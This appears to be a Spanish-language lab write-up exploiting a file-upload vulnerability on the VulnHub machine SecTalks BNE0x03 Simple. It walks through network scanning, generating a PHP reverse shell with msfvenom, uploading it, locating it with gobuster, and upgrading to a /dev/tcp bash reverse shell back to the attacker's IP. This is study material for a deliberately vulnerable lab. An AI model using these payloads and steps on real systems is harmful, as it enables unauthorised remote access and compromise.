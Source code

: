 # Explotación de vulnerabilidad File Upload

Maquinas a utilizar **Kali Linux y SecTalks: BNE0x03 - Simple (**[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141))

Vamos a ver como podemos **crear un Payload malicioso y aprovechar una vulnerabilidad de subir archivos dentro de una pagina web** para poder **tener acceso remoto** en la maquina.

```bash
10.0.3.sudo arp-scan -I eth0 --localnet
```

```bash
ping -c 1 10.0.3.13
```

![image.png](./imagenes/image%2038.png)

```bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.13
```

![image.png](./imagenes/image%2039.png)

Ponemos la IP en el navegador web

![image.png](./imagenes/image%2040.png)

Vemos un panel de inicio con la opción de registrarnos. Vamos a registrarnos.

![image.png](./imagenes/image%2041.png)

![image.png](./imagenes/image%2042.png)

**NOTA:** Cuando veamos un nombre o una marca lo investigamos en Metasploit con la opción “search: cutenews”.

Pulsamos en Personal options.

![image.png](./imagenes/image%2043.png)

Vemos que tenemos una opción para subir archivos. Entonces necesitaremos dos cosas el archivo malicioso y la ubicación donde se almacenen los archivos subidos.

- Vamos a generar el archivo malicioso.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php 
    ```
    
    ![image.png](./imagenes/image%2044.png)
    
    - **`p php/reverse_php`**: Especifica el tipo de payload. En este caso, se genera un payload de PHP que establece una conexión inversa (reverse shell) desde el objetivo hacia el atacante.
    - **`LHOST=10.0.3.4`**: Define la dirección IP del atacante (Local Host) que recibirá la conexión inversa.
    - **`LPORT=443`**: Especifica el puerto en el que el atacante escuchará la conexión. El puerto 443 es comúnmente utilizado para tráfico HTTPS, lo que puede ayudar a evadir detección.
    - **`f raw`**: Indica el formato del payload. Aquí se genera en formato "raw" (sin codificación adicional).
    - **`> pwned.php`**: Redirige la salida del payload generado a un archivo llamado `pwned.php`.
    
- Subimos el archivo malicioso a través del formulario
    
    ![image.png](./imagenes/image%2045.png)
    
- Vamos a hacer **Fuzzing Web** para saber donde se a subido el archivo. utilizaremos **la herrmienta Gobuster.**
    
    ```bash
    gobuster dir -u [http://10.0.3.13/](./imagenes/http://10.0.3.13/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2046.png)
    
- En el navegador web.
    
    ![image.png](./imagenes/image%2047.png)
    
    Vemos que hay se encuentra el archivo malicioso que he subido anteriormente.
    
- Utilizamos **netcat** para ponernos a la escucha en el **puerto 443** que es el que hemos utilizado para nuestro archivo malicioso.
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%2048.png)
    

**NOTA:** El Payload en msfvenom funciona mal. Después de un rato fácilmente vamos a perder la conexión para evitar esto y tener una conexión mas estable aremos lo siguiente.

- Abrimos un nuevo terminal y nos ponemos a la escucha con netcat en un puerto diferente por ejempló 4444.
    
    ```bash
    nc -nlvp 4444
    ```
    
- En la pagina web [Online - Reverse Shell Generator](./imagenes/https://www.revshells.com/) ponemos la IP de nuestra Kali y puerto y copiamos el payload.
    
    ![image.png](./imagenes/image%2049.png)
    

- Abrimos otra terminal y lanzamos otro netcat escuchando el puerto 4444
    
    ![image.png](./imagenes/image%2050.png)
    

- Ejecutamos nuestro archivo malicioso
    
    ![image.png](./imagenes/image%2051.png)
    
    Miramos si funciona por ejemplo mirando que usuario soy.
    
    `whoami`
    
    Y ejecutamos el payload que habíamos copiado
    
    `bash -c "**sh** -i >& /dev/tcp/**10.0.3.4**/**4444** 0>&1"`
    
    ![image.png](./imagenes/image%2052.png)
    
    Vemos como **se abre una nueva conexión mucho mas estable** en la escucha del puerto 4444. Podríamos cerrar la terminal en la que escuchábamos por el puerto 443 sin ningún problema.
    
    ![image.png](./imagenes/image%2053.png)